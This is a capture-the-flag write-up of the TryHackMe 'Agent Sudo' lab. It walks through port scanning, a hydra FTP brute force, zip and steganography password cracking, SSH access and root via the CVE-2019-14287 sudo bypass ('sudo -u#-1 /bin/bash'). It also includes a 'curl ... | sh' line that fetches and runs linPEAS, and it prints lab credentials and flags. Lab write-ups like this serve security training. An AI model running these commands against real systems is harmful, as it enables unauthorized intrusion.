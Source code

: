 ```yaml
---
title: "[TryHackMe] AgentSudo"
author: Tri Nguyen
date: 2021-11-20 14:20:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, tryhackme, agent-sudo, thm]
---
```


IP: http://10.10.239.92/

# Task 2: Enumerate

## How many open ports?

- nmap scan

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# nmap -sS -sV -p- 10.10.239.92 | tee nmap.txt  
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 17:42 EST
Nmap scan report for 10.10.239.92
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 827.24 seconds
```

- `3` open ports.

## How you redirect yourself to a secret page?

- When you go to the website, it said

    > Use your own **codename** as user-agent to access the site.

- `user-agent`

## What is the Agent's name?

- I parse the request to Burp's repeater. Not sure where to look for agent name, but in the hint, it said that try with `User-Agent: C`

- We are redirected to `agent_C_attention.php`

- Agent name is `chris`

# Task 3: Hash cracking and brute-force

## FTP Password

```shell
hydra -t 30 -l chris -P /usr/share/wordlists/rockyou.txt -vV 10.10.239.92 ftp
```

- FTP: `chris:crystal`

## Zip file password

- We have 2 pictures and a txt file but no zip files.

- May be it is embedded in the pictures!

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# binwalk -e cutie.png          

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- Taada! A zip file. But it is password protected. It is located in your extracted folder, `8702.zip`

- We are gonna crack it using JohnTheRipper.

- Googling around shows me how.

```shell
$ zip2john 8702.zip > 8702.hash

┌──(root💀kali)-[/home/…/Desktop/thm/agent-sudo/_cutie.png.extracted]
└─# john 8702.hash --wordlist=/usr/share/wordlists/rockyou.txt                                                                           1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2021-11-20 19:07) 3.703g/s 113777p/s 113777c/s 113777C/s michael!..*star*
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Password is `alien`

## steg password:

- You will see a letter inside the zip file
    
    > We need to send the picture to 'QXJlYTUx' as soon as possible!

- It is a base64 string.

- `Area51`

## What is the other agent's name?

- We haven't looked at the jpeg yet. Use the password `Area51`

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# steghide info cute-alien.jpg                                                                                                         1 ⨯
"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "message.txt":
    size: 181.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

$ steghide extract -sf cute-alien.jpg
```

- Read the extracted `message.txt`

- `james`

## What is the SSH password?

- `james:hackerrules!`

# Task 4: Capture the user flag

## What is the user flag?

- ssh to james's account. You will find the flag in the home directory.

- `b03d975e8c92a7c04146cfa7a5a313c7`

## What is the incident of the photo called?

- Grab the picture for further inspection. Nothing abnormal here. Hmm...

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# scp james@10.10.239.92:/home/james/Alien_autospy.jpg .
james@10.10.239.92\'s password: 
Alien_autospy.jpg                                                                                          100%   41KB  75.7KB/s   00:00    
                                                                                                                                             
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# exif Alien_autospy.jpg 
EXIF tags in 'Alien_autospy.jpg' ('Intel' byte order):
--------------------+----------------------------------------------------------
Tag                 |Value
--------------------+----------------------------------------------------------
X-Resolution        |72
Y-Resolution        |72
Resolution Unit     |Inch
Exif Version        |Exif Version 2.1
FlashPixVersion     |FlashPix Version 1.0
Color Space         |Uncalibrated
--------------------+----------------------------------------------------------
```

- Search the image on Google image and you find it ;) Somehow I find it disturbing.

- `Roswell Alien Autopsy`

# Task 5: Privilege Escalation

## What is the CVE?

- I downloaded linPEAS then run it remotely from the victim's machine

- Excerpt from linPEAS's instruction:

```shell
#Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

- I gotta admit I work from the bottom up, weird...

- After running linPEAS, it points me to a sudo privelge escalation

    > https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version

- After I used it I got root access

```shell
sudo -u#-1 /bin/bash
```

- The CVE is `CVE-2019-14287` if you're wondering.

## Root flag

- In `/root`, `b53a02f55b57d4439e3341834d70c062`

## (Bonus) Who is agent R?

- In the root message, it said `DesKel` is agent R ;)


